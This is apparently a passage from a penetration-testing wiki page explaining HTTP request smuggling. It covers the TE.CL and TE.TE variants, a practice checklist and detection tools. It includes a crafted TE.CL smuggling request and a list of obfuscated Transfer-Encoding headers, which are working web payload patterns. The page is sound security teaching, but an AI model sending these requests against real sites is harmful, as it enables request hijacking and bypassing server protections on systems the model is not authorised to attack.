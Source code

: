 {% tab title="TE.CL" %}
### Transfer-Encoding.Content-Length (TE.CL)

In `TE.CL` RS (Request Smuggling) the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. We can craft the follow HTTP request to exploit :

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

15

MALICIOUS-REQUEST

0
```

Further explanation will be given in the practice part.
{% endtab %}

{% tab title="TE.TE" %}
### Transfer-Encoding.Transfer-Encoding (TE.TE)

When the front-end and back-end both support Transfer-Encoding header, you can obfuscate one the TE header so one of the server will be induced not to process the request. Here are ways to obfuscate the Transfer-Encoding header :

```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Below is a summary table made by [spiderse](https://twitter.com/SpiderSec)

![https://twitter.com/SpiderSec/status/1200413390339887104](../../.gitbook/assets/spidersec\_tableau.jfif)
{% endtab %}
{% endtabs %}

## Practice

In order to identify if the target is vulnerable to HTTP request smuggling, testers need to answer the following questions:&#x20;

* Is there a front-end and a back-end ?
* Are they are using `CL.TE` or `TE.CL` or `TE.TE` ? This can be answered [using Burp](http-request-smuggling.md#using-burp-suite), [smuggler.py](http-request-smuggling.md#using-smuggler.py) or manually in a "die and retry" manner.
* If `HTTP/2` is used, can the session be downgraded it to perform `H2.CL` or `H2.TE` ? [http2smugl](https://github.com/neex/http2smugl) (Python) can be used to detect this, with the `http2smugl detect $URL` command
* Can differentials responses be triggered a request is smuggled and sent multiple times ?
* Can timing delay is be triggered in responses when a request is smuggled and sent multiple times?
